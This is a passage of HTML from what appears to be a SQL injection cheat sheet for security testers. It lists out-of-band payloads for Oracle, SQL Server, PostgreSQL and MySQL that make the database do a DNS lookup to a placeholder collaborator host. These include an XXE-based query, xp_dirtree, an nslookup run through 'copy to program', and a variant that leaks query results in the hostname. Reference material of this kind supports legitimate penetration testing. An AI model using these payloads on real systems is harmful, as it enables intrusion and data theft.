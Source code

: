                 </th>
                <td>
                    The following technique leverages an XML external entity (<a href="/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br>
                    <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code><br>
                    <br>
                    The following technique works on fully patched Oracle installations, but requires elevated privileges:<br>
                    <code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code>
                </td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td>
                    The following techniques work on Windows only:<br>
                    <code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br>
                    <code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
                </td>
            </tr>
        </table>
        <h2 id="dns-lookup-with-data-exfiltration">DNS lookup with data exfiltration</h2>
        <p>
            You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator-client">Burp Collaborator client</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
        </p>
        <table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>